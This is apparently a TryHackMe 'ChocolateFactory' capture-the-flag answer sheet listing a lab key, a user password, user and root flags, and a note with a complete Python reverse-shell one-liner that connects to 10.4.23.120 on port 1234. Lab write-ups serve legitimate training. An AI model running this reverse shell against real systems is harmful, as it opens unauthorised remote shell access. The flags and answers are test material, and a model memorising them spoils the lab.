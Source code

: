 # TryHackMe ChocolateFactory

# Saikat Karmakar | Jan 19:2021


# Task 2 
1. Enter the key you found!
```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
2. What is Charlie's password?
```
cn7824
```
3. Enter the user flag
```
flag{cd5509042371b34e4826e4838b522d2e}
```
4. Enter the root flag
```
flag{cec59161d338fef787fcb4e296b42124}
```


***Notes***
revshell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.23.120",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```